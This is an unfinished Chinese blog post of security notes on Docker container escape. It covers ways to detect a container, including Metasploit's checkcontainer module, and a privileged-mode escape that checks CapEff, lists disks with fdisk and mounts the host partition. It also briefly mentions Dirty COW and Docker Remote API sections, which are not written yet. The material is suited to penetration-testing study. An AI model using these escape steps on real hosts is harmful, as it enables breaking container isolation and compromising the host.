 ```yaml
---
title: Docker逃逸（未完成）
published: 2025-03-09 16:40:49
tags: [内网安全,提权思路]
category: 安全
draft: false
---
```


# Docker逃逸（未完成）

> https://xz.aliyun.com/t/8558?time__1311=n4%2BxnD0DcDuD90WY4GNepDUh2oDOlD0onkqTD | https://blog.csdn.net/qq_41874930/article/details/109216506
> 
- Metasploit 中的 checkcontainer 模块、（判断是否为虚拟机，checkvm 模块）
    
    该模块其实进行了如下操作：
    
- 检查根目录下是否存在`.dockerenv`文件
- 检查 `/proc/1/cgroup` 是否存在含有docker字符串
- 检查是否存在container环境变量
    
    通过`env` \ `PATH` 来检查是否有docker相关的环境变量，来进一步判断。
    

## Docker逃逸方法

### 特权模式逃逸

> 当操作者执行`docker run --privileged`时，Docker将允许容器访问宿主机上的所有设备，同时修改AppArmor或SELinux的配置，使容器拥有与那些直接运行在宿主机上的进程几乎相同的访问权限。
> 
1. 判断特权模式
    
    ```c
    cat /proc/self/status | grep CapEff
    ```
    
    特权模式启动的话，`CapEff`对应的掩码值应该为`0000003fffffffff`或者是 `0000001fffffffff`
    
    ![image.png](image.png)
    
2. 查看磁盘分区
    
    ```c
    fdisk -l
    Disk /dev/sda: 10 GiB, 10737418240 bytes, 20971520 sectors
    Units: sectors of 1 * 512 = 512 bytes
    Sector size (logical/physical): 512 bytes / 512 bytes
    I/O size (minimum/optimal): 512 bytes / 512 bytes
    Disklabel type: dos
    Disk identifier: 0x00063af9
    
    Device     Boot    Start      End  Sectors Size Id Type
    /dev/sda1  *        2048 16779263 16777216   8G 83 Linux
    /dev/sda2       16781310 20969471  4188162   2G  5 Extended
    /dev/sda5       16781312 20969471  4188160   2G 82 Linux swap / Solaris
    ```
    
3. 创建目录，并将分区挂载到目录中
    
    ```c
    mkdir /test && mount /dev/sda1 /test
    ```
    
4. 成功将宿主机内容挂载到test目录下

### dirty cow 逃逸

这种利用方法利用成功的前提是，宿主机的内核有`dirty cow`漏洞

> https://github.com/scumjr/dirtycow-vdso.git
> 

### **Docker Remote API 未授权访问**

Vulhub提供该漏洞复现环境（`Docker`配置有问题，导致复现不成功，累）